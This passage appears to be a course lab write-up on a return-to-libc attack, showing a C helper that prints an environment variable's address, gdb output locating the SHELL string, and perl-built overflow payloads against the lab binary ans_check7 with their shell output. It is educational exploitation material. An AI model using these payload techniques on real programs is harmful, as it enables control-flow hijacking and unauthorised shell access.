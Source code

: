 To find our input string "<code>/bin/bash</code>", the <code>find_var.c</code> program may be used:
```c
/* find_var.c */
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[])
{
    if (!argv[1])
        exit(1);
    printf("%p\n", getenv(argv[1]));
    return 0;
}
```
Or, we can also use <code>gdb</code>:
```console
gdb-peda$ x/20s 0xffffd7e2
0xffffd7e2:     "forty-one"
0xffffd7ec:     "SHELL=/bin/bash"
0xffffd7fc:     "SUDO_GID=1000"
0xffffd80a:     "SUDO_COMMAND=/usr/bin/su seed"
0xffffd828:     "SUDO_USER=ubuntu"
0xffffd839:     "PWD=/home/seed/Documents/cse523s/return2libc"
0xffffd866:     "LOGNAME=seed"
0xffffd873:     "_=/usr/bin/gdb"
0xffffd882:     "LINES=21"
0xffffd88b:     "HOME=/home/seed"
0xffffd89b:     "LANG=C.UTF-8"
...
```
The above results show that the string starts at <code>0xffffd7ec</code>. Nevertheless, running <code>find_var.c</code>, I got the output <code>0xffffd832</code>. If we type <code>unset environment LINES</code> and <code>unset environment COLUMNS</code> in <code>gdb</code>, the two addresses should be identical.

### Assemble the Payload

We are now ready to construct our payload using the addresses we just gathered. First, run <code>echo &dollar;&dollar;</code>:
```bash
$ echo $$
2366
```

I then tried the following input string:
```bash
$ ./ans_check7 $(perl -e 'print "\x90"x2, "\x10\x91\x04\x08"x19, "\xee\x92\x04\x08", "\x32\xd8\xff\xff"')
```
which produces:
```console
sh: 1: <???%>: not found
sh: 1: <???%>: not found
sh: 1: <???%>: not found
sh: 1: <???%>: not found
sh: 1: j: not found
```
Note that the leading two bytes of NOPS in our payload are for four-byte alignment requirement, given that <code>ans_buf</code> has a size of $$38$$ bytes. The output indicates that <code>&system()</code> does overwrite the return address but the <code>SHELL</code> variable is wrongly positioned. I kept decreasing the value of repeated <code>&system()</code> until:
```bash
$ ./ans_check7 $(perl -e 'print "\x90"x2, "\x10\x91\x04\x08"x14, "\xee\x92\x04\x08", "\x32\xd8\xff\xff"')
sh: 1: /bash: not found
```